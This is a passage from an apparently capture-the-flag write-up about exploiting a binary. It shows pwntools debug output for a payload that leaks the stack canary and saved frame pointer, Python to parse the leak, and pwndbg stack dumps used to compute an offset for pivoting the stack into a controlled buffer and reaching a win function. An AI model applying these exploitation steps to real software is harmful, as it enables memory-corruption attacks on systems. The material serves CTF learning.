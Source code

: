 Sending this payload will leak us the canary and the frame pointer (we will need this later)
```py
[DEBUG] Sent 0x66 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000050  41 41 41 41  41 41 41 41  41 51 75 61  63 6b 20 51  │AAAA│AAAA│AQua│ck Q│
    00000060  75 61 63 6b  20 00                                  │uack│ ·│
    00000066
[DEBUG] Received 0x37 bytes:
    00000000  51 75 61 63  6b 20 51 75  61 63 6b 20  e8 07 5c ac  │Quac│k Qu│ack │··\·│
    00000010  74 c4 e1 e0  fd ed 2b fe  7f 2c 20 72  65 61 64 79  │t···│··+·│·, r│eady│
    00000020  20 74 6f 20  66 69 67 68  74 20 74 68  65 20 44 75  │ to │figh│t th│e Du│
    00000030  63 6b 3f 0a  0a 3e 20                               │ck?·│·> │
    00000037
```
we can parse this easly like this
```py
r.recvuntil(b"Quack Quack ")
canary = u64(b"\x00" + r.recv(7))
stack_addr = u64(r.recv(6) + b"\x00\x00") 
```

We have the canary, now how can we execute our win function with only control of the frame pointer? We just move that frame pointer to our controlled buffer and ``main`` will call ``duck_attack`` for us!

First let's find how much we need to change that leaked stack address, again we can use gdb.
```py
pwndbg> stack 24
00:0000│ rsp 0x7fffffffda30 ◂— 0x0
01:0008│-088 0x7fffffffda38 —▸ 0x7fffffffda40 ◂— 'Quack Quack \n'
02:0010│-080 0x7fffffffda40 ◂— 'Quack Quack \n'
03:0018│-078 0x7fffffffda48 ◂— 0xa206b6361 /* 'ack \n' */
04:0020│-070 0x7fffffffda50 ◂— 0x0
05:0028│-068 0x7fffffffda58 ◂— 0x0
06:0030│ rsi 0x7fffffffda60 ◂— 'Second buffer start\n'
07:0038│-058 0x7fffffffda68 ◂— 'uffer start\n'
08:0040│-050 0x7fffffffda70 ◂— 0xa747261 /* 'art\n' */
09:0048│-048 0x7fffffffda78 ◂— 0x0
... ↓        6 skipped
10:0080│-010 0x7fffffffdab0 —▸ 0x7ffff7e17600 (__GI__IO_file_jumps) ◂— 0x0
11:0088│-008 0x7fffffffdab8 ◂— 0xf16e36642f62f200
12:0090│ rbp 0x7fffffffdac0 —▸ 0x7fffffffdae0 ◂— 0x1
13:0098│+008 0x7fffffffdac8 —▸ 0x40162a (main+37) ◂— mov eax, 0
14:00a0│+010 0x7fffffffdad0 ◂— 0x89a0e288a0e280a0
15:00a8│+018 0x7fffffffdad8 ◂— 0xf16e36642f62f200
16:00b0│+020 0x7fffffffdae0 ◂— 0x1
17:00b8│+028 0x7fffffffdae8 —▸ 0x7ffff7c29d90 (__libc_start_call_main+128) ◂— mov edi, eax
```
so:
```py
>>> 0x7fffffffdae0 - 0x7fffffffda60
128
```
we just need to remove this offset from the leaked stack address to move the stack to our buffer
